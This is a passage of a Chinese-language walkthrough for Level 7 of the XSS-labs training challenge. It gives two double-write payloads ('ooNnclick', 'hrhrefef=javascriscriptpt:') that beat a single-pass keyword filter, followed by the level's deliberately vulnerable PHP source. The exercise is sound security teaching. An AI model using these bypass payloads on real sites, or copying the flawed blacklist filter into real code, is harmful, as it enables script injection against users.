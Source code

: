 <img src="./images/xss-labs_href被戒断.png" alt="href被拦截" width="80%" style="display: block; margin: 0 auto;">

---


## Level 7 - 解决方案

尝试双写绕过技术：

```js
"ooNnclick="alert(1)
```

或者：

```js
"> <a hrhrefef=javascriscriptpt:alert()>xxx</a> <"
```

这种方法能成功绕过过滤，因为过滤器只会删除一次匹配的字符串。

---


## Level 7 - 源码分析

```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level7.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```
